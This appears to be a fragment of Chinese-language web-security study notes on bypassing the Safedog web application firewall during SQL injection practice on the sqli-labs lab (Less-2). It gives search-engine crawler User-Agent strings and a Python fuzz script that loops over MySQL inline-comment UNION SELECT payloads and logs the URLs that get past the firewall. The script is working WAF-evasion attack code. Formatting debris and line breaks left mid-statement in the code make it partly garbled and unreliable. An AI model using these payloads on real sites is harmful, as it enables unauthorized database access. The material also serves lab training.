<font style="color:rgb(38, 38, 38);">直接访问../../zhong.php/?id=2 ==</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/less-2/?id=2</font>

## **<font style="color:rgb(38, 38, 38);">补充资源：</font>**
### <font style="color:rgb(38, 38, 38);">各大引擎User-Agent  
  
</font>
```sql
baidu：Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html) 

Google：Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

Sogou：Sogou web spider/4.0(+http://www.sogou.com/docs/help/webmasters.htm#07)

Yahoo：Mozilla/5.0 (compatible; Yahoo! Slurp/3.0; http://help.yahoo.com/help/us/ysearch/slurp)
 
百度爬虫，第二条为百度图片爬虫

Baiduspider+(+http://www.baidu.com/search/spider.htm")

Baiduspider-image

google爬虫，最后一条为google图片搜索爬虫

Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

Googlebot/2.1 (+http://www.googlebot.com/bot.html)

Googlebot/2.1 (+http://www.google.com/bot.html)

Googlebot-Image/1.0

即刻搜索爬虫

Mozilla/5.0 (compatible; JikeSpider; +http://shoulu.jike.com/spider.html)

雅虎爬虫（分别是雅虎中国和美国总部的爬虫）

Mozilla/5.0 (compatible; Yahoo! Slurp China; http://misc.yahoo.com.cn/help.html")

Mozilla/5.0 (compatible; Yahoo! Slurp; http://help.yahoo.com/help/us/ysearch/slurp")

新浪爱问爬虫

iaskspider/2.0(+http://iask.com/help/help_index.html")

Mozilla/5.0 (compatible; iaskspider/1.0; MSIE 6.0)

搜狗爬虫,第三条为搜狗图片爬虫

Sogou web spider/3.0(+http://www.sogou.com/docs/help/webmasters.htm#07)

Sogou Push Spider/3.0(+http://www.sogou.com/docs/help/webmasters.htm#07)

Sogou Pic Spider/3.0(+http://www.sogou.com/docs/help/webmasters.htm#07)

搜搜爬虫

Sosospider+(+http://help.soso.com/webspider.htm)

网易有道爬虫

Mozilla/5.0 (compatible; YoudaoBot/1.0; http://www.youdao.com/help/webmaster/spider/; )

MSN爬虫

msnbot/1.0 (+http://search.msn.com/msnbot.htm)
```

### **<font style="color:rgb(38, 38, 38);">Fuzz测试脚本</font>**
```sql
import requests,time

url='http://127.0.0.1:8080/sqlilabs/Less-2/?id=-1'
union='union'
select='select'
num='1,2,3'
a={'%0a','%23'}
aa={'x'}
aaa={'%0a','%23'}
b='/*!'
c='*/'
def bypass():
	for xiaodi in a:
		for xiaodis in aa:
			for xiaodiss in aaa:
				for two in range(44500,44600):
					urls=url+xiaodi+xiaodis+xiaodiss+b+str(two)+union+c+xiaodi+xiaodis+xiaodiss+select+xiaodi+xiaodis+xiao
diss+num
					#urlss=url+xiaodi+xiaodis+xiaodiss+union+xiaodi+xiaodis+xiaodiss+b+str(two)+select+c+xiaodi+xiaodis+xia
odiss+num
					try:
						result=requests.get(urls).text
						len_r=len(result)
						if (result.find('safedog')==-1):
							#print('bypass url addreess：'+urls+'|'+str(len_r))
							 print('bypass url addreess：'+urls+'|'+str(len_r))
						if len_r==715:
                             fp = open('url.txt','a+')
                             fp.write(urls+'\n')
                             fp.close()
					except Exception as err:
						print('connecting error')
						time.sleep(0.1)
if__name__=='__main__':
	print('fuzz strat!')
	bypass()
```

